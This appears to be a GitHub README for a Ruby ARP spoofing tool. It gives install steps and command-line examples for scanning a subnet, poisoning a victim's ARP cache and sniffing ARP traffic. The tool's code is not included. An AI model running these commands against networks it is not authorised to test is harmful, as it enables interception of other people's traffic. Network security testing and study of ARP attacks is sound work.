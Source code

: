 # Maya-ARP-Spoofer
a yet very simple arp poisoner written in Ruby. i try to keep improving it though, so keep checking :)
just remember that there is no strong protection over inputs yet (its initial release), so try to do as the example to avoid any unexpected error

#INSTALLING PAKCETFU
first you need to install packetfu gem
if you have rubygems installed just do this : 
	$: gem install packetfu
second as the script uses nmap to scan the subnet so you need it to be install if you want to use the scanner:
	$: apt install nmap
now you're good to go ...

# USAGE
to scan the whole subnet:
	ruby Maya -s -g {your default gateway}
to start poisoning the ARP cashe of the victim:
	ruby Maya -i {your interface} -vI {victim_internal_ip} -g {default_gateway}
to start sniffing all the arp packets goes over the network:
	ruby Maya -i {your interface} -l
	
#EXAMPLE

sudo ruby Maya.rb -i 'wlo1' -vI 192.168.0.106 -g 192.168.0.1 \n

sudo ruby Maya -s -g '192.168.0.1'

sudo ruby -i 'wlo1' -l


